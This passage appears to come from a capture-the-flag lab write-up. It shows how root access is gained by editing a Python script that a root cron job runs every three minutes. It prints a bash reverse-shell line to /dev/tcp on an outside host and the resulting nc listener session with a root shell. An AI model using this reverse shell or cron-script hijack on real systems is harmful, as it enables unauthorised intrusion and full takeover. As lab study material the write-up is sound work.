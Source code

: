 Every three minutes I see:

```

2020/04/29 22:42:01 CMD: UID=0    PID=1104   | /usr/sbin/CRON -f 
2020/04/29 22:42:01 CMD: UID=0    PID=1105   | /usr/sbin/CRON -f 
2020/04/29 22:42:01 CMD: UID=0    PID=1106   | /bin/sh -c python /opt/tmp.py 
2020/04/29 22:42:02 CMD: UID=0    PID=1107   | python /opt/tmp.py 
2020/04/29 22:42:02 CMD: UID=0    PID=1108   | sh -c rm -r /tmp/*
2020/04/29 22:45:01 CMD: UID=0    PID=1150   | /usr/sbin/CRON -f 
2020/04/29 22:45:01 CMD: UID=0    PID=1151   | /usr/sbin/CRON -f 
2020/04/29 22:45:01 CMD: UID=0    PID=1152   | /bin/sh -c python /opt/tmp.py 
2020/04/29 22:45:01 CMD: UID=0    PID=1153   | python /opt/tmp.py 
2020/04/29 22:45:01 CMD: UID=0    PID=1154   | sh -c rm -r /tmp/*  

```

root is running this file.

### Exploit

I’ll modify the file to add a reverse shell into it:

```

#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"')

```

This last line should initiate a shell back to me once root runs it. At the next turn of three minutes, I get a connection:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.51.
Ncat: Connection from 10.10.10.51:49594.
bash: cannot set terminal process group (1170): Inappropriate ioctl for device
bash: no job control in this shell
root@solidstate:~# id
uid=0(root) gid=0(root) groups=0(root)

```

And can grab `root.txt`:

